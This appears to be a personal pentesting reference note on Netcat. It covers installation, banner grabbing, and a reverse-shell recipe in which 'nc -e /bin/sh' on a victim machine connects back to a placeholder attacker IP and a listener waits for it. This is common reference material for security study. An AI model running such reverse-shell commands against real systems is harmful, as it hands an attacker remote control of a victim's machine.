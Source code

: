 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```
## Summary
[Netcat](https://linux.die.net/man/1/nc), *ncat*, or *nc* is a network utility for interacting with TCP/UDP ports.
> [PowerCat](https://github.com/besimorhino/powercat) is the PowerShell equivalent of Netcat.
> [[Socat]] is a similar tool to netcat but offers additional features including full TTY reverse shells

## Installation
```
sudo apt install netcat
```

## Documentation
**Cheatsheet:** https://quickref.me/nc.html
**Website:** 
## Usage
### Banner Grabbing
```
nc -vn [target] [port]
```
This aids us in confirming the service running on a particular port.

### Create a simple reverse shell
In many versions of netcat, the *-e* flag doesn't exist so this method isn't all reliable
```shell
# On victim machine
nc -e /bin/sh [Atkbox IP] [Port]

# On Atkbox
nc -lvp [Port]
```
- *-e* : binds a shell to a port
- *-l* : specifies to listen
- *-v* : more vebose
- *-p* : specifies the source port
